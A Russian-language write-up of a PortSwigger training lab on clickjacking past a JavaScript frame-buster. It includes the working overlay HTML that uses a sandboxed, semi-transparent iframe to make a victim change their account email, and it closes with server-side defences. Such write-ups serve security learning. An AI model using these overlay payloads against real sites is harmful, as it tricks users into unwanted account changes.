




лаба https://portswigger.net/web-security/clickjacking/lab-frame-buster-script

стоит защита от фреймов

задание- нужно создать поверх стр кнопку "Click me" при нажатии на которую произойдет смена емейл жертвы

-----

вот стр мой акк

```http
GET /my-account HTTP/2
Host: 0a2a009703a7199f80bf128c00390045.web-security-academy.net
Cookie: session=4QQHTlT50TyXWPwe0icizA2cOrmOGhhq
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a2a009703a7199f80bf128c00390045.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

и снова теже грабли - если добавляем параметр (как в прошлой лабе) = то этот параметр автоматом подставится в форму...
и я сомневаюсь - что такой функционал распространен в реальном мире, похоже на бред, но ладно.  типо жертва вписывает сама лог/пар
тут в лабе шла речь про защиту от iframe





-----

пробую банальщину

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 480px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a2a009703a7199f80bf128c00390045.web-security-academy.net/my-account?email=hacker222@bk.ru"></iframe>

```

получаю ответ     `This page cannot be framed`




ХОТЬ В РЕПИТЕРЕ И ОТОБРАЖАЕТСЯ ПОЛНОСТЬЮ РАБОЧИЙ ЗАПРОС  -где подставился емейл - НО сам браузер показывает вместо подгруженного сайта просто надпись `This page cannot be framed`




--------

и вот на самой стр html (куда подставился мой емейл через скрипт - но браузер не отображает ничего)  - я вижу интересный код
```html
                       <p>Your username is: wiener</p>
                        <p>Your email is: <span id="user-email">hacker@bk.ru</span></p>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="hacker222@bk.ru">
                            <script>
                            if(top != self) {
                                window.addEventListener("DOMContentLoaded", function() {
                                    document.body.innerHTML = 'This page cannot be framed';
                                }, false);
                            }
                            </script>
```

вот эта функция `if(top != self)` срабатывает - если вдруг поверх сайта накладывается внешняя хрень - то вместо стр он показывает надпись `This page cannot be framed`

как это обойти:
мои варианты

- подменить рефер или хост - чтобы контент был как бы родной - то есть self
- может поиграться с z индексом... но врядли


-----


вот теория с портсвигера

>Сценарии для разбивки кадров Кликджекинговые атаки возможны всякий раз, когда веб-сайты могут быть оформлены. Поэтому превентивные методы основаны на ограничении возможности кадрирования веб-сайтов. Распространенной защитой на стороне клиента, введемой через веб-браузер, является использование скриптов взлома кадров или разрыва кадров. Он может быть адаптирован с помощью любого программного обеспечения, будь то JavaScript или raspberry, так же, как и NoScript. Сценарии часто создаются таким образом, чтобы они выполняли некоторые или все следующие действия: 
>
>проверьте и доверите, что текущее окно приложения является главным или верхним окном, 
>
>сделать все кадры видимыми, 
>
>предотвращать нажатие на невидимые кадры, 
>
>перехватывать и отмечать потенциальные атаки кликджекинга для пользователя. 
>
>Методы перехвата кадров часто зависят от браузера и платформы, и из-за гибкости HTML злоумышленники обычно могут обойти их. Поскольку перехватчики кадров - это JavaScript, настройки безопасности браузера могут препятствовать их работе или, более того, браузер может даже не поддерживать JavaScript. 
>
>Эффективным способом защиты от взломщиков фреймов является использование атрибута изолированной среды HTML5 iframe. 
>
>Если для этого параметра заданы значения
>
`allow-forms` или `allow-scripts`, а значение `allow-top-navigation` опущено, 

>то сценарий перехвата кадров может быть нейтрализован, поскольку iframe не может проверить, является ли это верхним окном или нет: `<идентификатор iframe="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe> `Значения allow-forms и allow-scripts позволяют выполнять указанные действия в iframe, но навигация по верхнему уровню отключена. Это препятствует нарушению работы фреймворка, обеспечивая при этом функциональность целевого сайта.


--------

короче говоря - если сайты  защищать через js от кликджекинга - то это можно часто обойти путем 
внедрения заголовков  ( `allow-forms` или `allow-scripts`,  `allow-top-navigation` )
типо так `<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

ПРОБУЮ!


добавляю ` sandbox="allow-forms"`
и добавляю `id="https://0a2a009703a7199f80bf128c00390045.web-security-academy.net"`
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 480px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="https://0a2a009703a7199f80bf128c00390045.web-security-academy.net" src="https://0a2a009703a7199f80bf128c00390045.web-security-academy.net/my-account?email=hacker2224@bk.ru" sandbox="allow-forms"></iframe>

```

сработало! браво!




я смог сменить сам себе емейл!!

отправляю это дело жертве!! поднял выше на 10 поинтов click и сработало и на жертве!

----

лаба решена!


## защита

защита от кликджекинга через javascript легко обходится атрибутом sandbox поэтому полагаться только на неё нельзя

надёжная защита обеспечивается серверными заголовками

нужно использовать `X-Frame-Options deny` или `sameorigin` - чтобы запретить загрузку сайта во фреймы с других доменов

ещё лучше использовать `Content-Security-Policy` с директивой `frame-ancestors` которая позволяет точно указать какие домены могут фреймить сайт


